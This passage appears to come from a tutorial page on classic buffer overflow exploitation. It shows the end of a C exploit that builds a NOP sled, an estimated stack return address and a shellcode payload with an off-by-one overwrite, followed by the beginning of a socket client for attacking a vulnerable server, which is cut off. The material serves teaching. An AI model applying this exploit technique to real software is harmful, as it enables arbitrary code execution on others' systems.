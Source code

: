         offset = atoi(argv[1]);

    buff = malloc(buffs);    // Reserve memory on the heap

    adr = getESP() - offset;
    tmp = buff;
    adr_pointer = (long*) (tmp + 1);  // +1 because the stack is set up incorrectly

    // Fill the entire buffer with the suspected address
    for(i = 0; i < buffs; i += 4)
        *(adr_pointer++) = adr;

    // Fill the first half with NOPs
    for(i = 0; i <= buffs/2; i++)
        buff[i] = NOP;

    tmp = buff + ((buffs/2) - (strlen(shellcode)/2));
    for(i = 0; i < strlen(shellcode); i++)
        *(tmp++) = shellcode[i];

    buff[buffs - 1] = 1; // Off-by-one byte

    calctmp(buff);

    /*
    printf("%s", buff);
    fflush(stdout);
    */

    return 0;
}
{% endhighlight %}

## Example for a Server with a Buffer Overflow Vulnerability
### client.c
{% highlight C %}
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <stdio.h>
#include <arpa/inet.h>
#include <string.h>
#include <unistd.h>


#define PORT 7777
#define BUF_SIZE 1024

int main(int argc, char *argv[]) {
	int sock, run, r;
	char buf[BUF_SIZE];
	struct sockaddr_in server;
	struct hostent *hp;
	if(argc != 2)
	{
		fprintf(stderr, "usage: client <hostname> \n");
		exit(2);
	}

	/* create socket */
	sock = socket(AF_INET,SOCK_STREAM,0);
	if(sock < 0)
	{
		perror("open stream socket");
		exit(1);
	}